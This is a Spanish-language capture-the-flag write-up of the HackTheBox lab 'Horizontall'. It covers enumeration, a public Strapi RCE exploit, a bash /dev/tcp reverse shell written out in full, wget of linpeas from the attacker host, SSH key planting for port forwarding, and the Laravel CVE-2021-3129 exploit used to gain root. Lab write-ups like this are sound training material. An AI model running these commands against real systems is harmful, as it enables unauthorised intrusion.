









Horizontall
- Hago un escaneo de puertos nmap -Pn -sV -sC -p- --open 10.10.11.105 -oN scan.txt
- Tiene problemas por lo que tengo que agregarlo a /etc/hosts
- A primera vista veo un par de buttons pero nada interesante
- Realizo un escaneo de direcotrios para ver si se encuentra algún login dirb http://horizontall.htb/
- No encuentro nada interesante
- Realizo un escaneo de vhosts con gobuster gobuster vhost -u http://horizontall.htb -t 35 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --append-domain -k --no-error
- Me da muchos vhosts por lo que pruebo con otra herramienta
- Pruebo con ffuf sudo ffuf -u http://horizontall.htb/ -H "Host: FUZZ.horizontall.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 194
- Veo el código de la página web para ver si hay alguna redirección
- Al no encontrar nada interesante miro en los .js
- Meto este código em beautifier.io para que sea más cómodo para leer
- Encuentro una redirección a otra página web

- Lo añadimos a /etc/hosts
- Realizo un escaneo de directorios de esta dirección web dirb http://api-prod.horizontall.htb/
- Encuentro directorios importantes

- Robots.txt y users no tienen nada relevante. Pero si accedo a admin me aparece un login
- Pruebo con los típicos usernames y pass pero no da resultados
- Voy a interceptar el POST con Burpsuite para ver si me devuelve algo interesante
- No encuentro nada interesante
- Si hago una enumeración de directorios dentro de http://api-prod.horizontall.htb/admin/ a lo mejor encuetro algo interesante
- Encuentro el directorio init
- Dentro de ahí esta la versión de Strapi (Login)
- Con searchsploit encuentro un RCE

python3 50239.py http://api-prod.horizontall.htb/
- Recibo un blind shell gracias al RCE
- Ahora me toca obtener un reverse shell bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
- Pongo netcat en escucha

- Tengo que meterlo dentro de un comando bash para que se ejecute bien si no me devolverá “Bad Request" bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
- Obtengo el reverse

- Encuentro la flag de user.txt cat /home/developer/user.txt
- Pruebo a hacer sudo -l pero me pide la contraseña de strapi
- Uso LinPeas para encontrar una posible escalada de privilegios
- Para pasarlo monto el servidor local python3 -m http.server <PORT>
- Me pongo en la carpeta /tmp
- Realizo un wget para coger el archivo linpeas.sh wget http://<IP>:<PORT>/linpeas.sh
- Le doy permiso de ejecución chmod +x linpeas.sh
- Pongo que se ejecute linpeas y que se metan los datos en el archivo linpeas.txt ./linpeas.sh > linpeas.txt
- Cuando acabe hacemos un cat a linpeas.txt (Nos mostrará muchos datos)
- Las áreas importantes aparecen marcadas en rojo
- Encuentro este conjunto de puertos abiertos

- Usando netstat veo que hay algo montado a nivel local netstat -pentul

- Hago un curl al puerto 8000 para ver de que se trata curl -sSL -D- http://localhost:8000 -o /dev/null
- Parece ser una web llamada Laravel.
- Por lo que en el puerto 8000 está montado un servidor web hosteado a nivel local
- Tengo que hacer un portforwarding para poder ver está página en mi máquina
- Para hacer el portforwarding voy a hacerlo a traves de SSH
- Primero creo las ssh-keys y las metemos en un archivo ssh-keygen
- Accedo al directorio donde están las id_rsa y copio el contenido de id_rsa.pub en un archivo que llamare authorized_keys
- Vuelvo a hacer un echo solo que en la máquina atacada con el contenido de id_rsa.pub y con el mismo nombre authorized_keys
- Por un problema de donde pegué las keys no me dejaba entrar por SSH (Lo pego en la ruta /opt/strapi)
- Ahora puedo ver la web en mi navegador


- Si analizamos un poco la página podemos ver la versión del Laravel y la versión de PHP
- Encuentro el CVE-2021-3129
- Descargo el archivo py
- Lo ejecuto y compruebo si funciona python3 exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
- Efectivamente el RCE me deja ejecutar comandos como usuario root